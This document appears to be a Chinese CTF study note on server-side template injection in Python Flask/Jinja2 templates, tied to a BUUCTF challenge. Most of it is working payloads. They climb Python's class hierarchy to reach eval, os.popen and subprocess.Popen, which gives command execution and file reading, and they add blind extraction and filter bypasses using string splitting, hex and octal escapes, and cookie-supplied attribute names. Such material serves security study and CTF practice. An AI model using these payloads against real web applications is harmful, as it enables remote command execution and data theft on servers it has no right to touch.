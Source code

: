 ```yaml
---
title: SSTI
---
```


# SSTI

SSTI为模板注入，以下皆为 Python3 环境

首先由于模板解析的特性，当使用 render_template_string 则可以通过各个类之间的调用造成命令执行

```
render_template_string("{{1+1}}")
```

这一解析方法时就会把输入的内容直接放入页面解析，通常的检测方法为 

```
{{1+1}}
```

返回的是 2，这也说明其中的内容被执行。

而安全的方法是

```
render_template("{{1+1}}")
```

返回的是 

```
{{1+1}}
```



## 利用方法

通常是通过某一对象向上寻找基类，进而使用包含某些特殊方法的类，并调用其中的危险函数来执行命令

以下为 flask 的常见可用类

```
75 <class '_frozen_importlib._ModuleLock'>
76 <class '_frozen_importlib._DummyModuleLock'>
77 <class '_frozen_importlib._ModuleLockManager'>
78 <class '_frozen_importlib._installed_safely'>
79 <class '_frozen_importlib.ModuleSpec'>
91 <class '_frozen_importlib_external.FileLoader'>
92 <class '_frozen_importlib_external._NamespacePath'>
93 <class '_frozen_importlib_external._NamespaceLoader'>
95 <class '_frozen_importlib_external.FileFinder'>
103 <class 'codecs.IncrementalEncoder'>
104 <class 'codecs.IncrementalDecoder'>
105 <class 'codecs.StreamReaderWriter'>
106 <class 'codecs.StreamRecoder'>
128 <class 'os._wrap_close'>
129 <class '_sitebuiltins.Quitter'>
130 <class '_sitebuiltins._Printer'>
```

当确定存在模板注入后就是先寻找可用类

```
{{''.__class__.__mro__[1].__subclasses__()}}

__class__ 返回调用的参数类型
__mro__ 此属性是在方法解析期间寻找基类时考虑的类元组
__subclasses__() 返回object的子类
```

class 返回 str 类，str的基类是 object类，之后返回object的子类，就可以实现多种方法

例如命令执行：

```
{{''.__class__.__mro__[1].__subclasses__()[75].__init__.__globals__['__builtins__']['eval']('__import__("os").popen("ls").read()')}}
```

文件读取：

```
{{().__class__.__bases__[0].__subclasses__()[75].__init__.__globals__.__builtins__['open']('/this_is_the_flag.txt').read()}}
```



## WAF绕过

很多 Python 中的语法在 SSTI 中也都是可以用的

attr 用于获取变量，以下写法是相同的

```
""|attr("__class__")
"".__class__
```

获取数组参数可以使用

```
__gititem__()
__gititem__(数组下标)
__gititem__("key")
```

绕过双引号可以使用

 ```
request.cookies.参数名
request.args.参数名
 ```

比如通过 + 进行拼接绕过关键字，也可以使用 “” 进行拼接，或者 `"str1".__add__("str2")` 的方式

```
{{''.__class__.__mro__[1].__subclasses__()[75].__init__.__globals__['__buil'+'tins__']['ev'+'al']('__imp'+'ort__("o'+'s").pop'+'en("ls").read()')}}
{{[].__class__.__base__.__subclasses__()[75].__init__.__globals__.__builtins__["open"]("/fl""ag").read()}}
{{app.__init__.__globals__["__buil".__add__("tins__")].open("/fla".__add__("g")).read()}}
```

通过十六进制绕过 . 和 _

```
{{''["\x5f\x5fclass\x5f\x5f"]["\x5f\x5fmro\x5f\x5f"][1]["\x5f\x5fsubclasses\x5f\x5f"]()[342]["\x5f\x5finit\x5f\x5f"]["\x5f\x5fglobals\x5f\x5f"]["\x5f\x5fbuiltins\x5f\x5f"]["\x5f\x5fimport\x5f\x5f"]('os')["popen"]("ls")["read"]()}}
```

或者在无回显的时候进行盲注 `177 threading.Semaphore`

```
{% if ''.__class__.__mro__[-1].__subclasses__()[177].__init__.__globals__['__bui'+'ltins__']['open']('/app/flag').read()[0:1]=='f' %}xxx{% endif %}
```

也有特殊的可用类 `<class 'subprocess.Popen'>` 直接执行命令

```
{{''.__class__.__mro__[-1].__subclasses__()[258]('cat /flasklight/coomme_geeeett_youur_flek',shell=True,stdout=-1).communicate()[0].strip()}}
```

或者利用 getattr 进行沙箱逃逸

```
getattr(getattr(getattr(getattr(getattr(getattr(getattr([],'__cla'+'ss__'),'__mr'+'o__')[1],'__subclas'+'ses__')()[104],'__init__'),'__glob'+'al'+'s__')['sy'+'s'],'mod'+'ules')['o'+'s'],'sy'+'ste'+'m')('l'+'s')
```

和利用八进制绕过

```
{%print%0a(lipsum|attr("\137\137\147\154\157\142\141\154\163\137\137"))|attr("\137\137\147\145\164\151\164\145\155\137\137")("\137\137\142\165\151\154\164\151\156\163\137\137")|attr("\137\137\147\145\164\151\164\145\155\137\137")("\145\166\141\154")("\137\137\151\155\160\157\162\164\137\137\50\47\157\163\47\51\56\160\157\160\145\156\50\47\143\141\164\40\57\146\154\141\147\47\51\56\162\145\141\144\50\51")%}
```

利用 attr 和 request 绕过

```
{{()|attr(request.cookies.x1)|attr(request.cookies.x2)|attr(request.cookies.x3)()|attr(request.cookies.x4)(78)|attr(request.cookies.x5)|attr(request.cookies.x6)|attr(request.cookies.x4)(request.cookies.x7)|attr(request.cookies.x4)(request.cookies.x9)(request.cookies.x10)}}
Cookie: x1=__class__; x2=__base__; x3=__subclasses__; x4=__getitem__; x5=__init__; x6=__globals__; x7=__builtins__; x8=__getitem__; x9=eval; x10=__import__("os").popen("cat flag.txt").read();
```



## 其他方法

查看对象属性

```
(对象名).func_globals  
(对象名).__code__.co_consts 
(对象名).__code__.co_names
(对象名).__dict__
(对象名).__globals__
```



## 相关题目

BUUCTF		[BJDCTF 2nd]fake google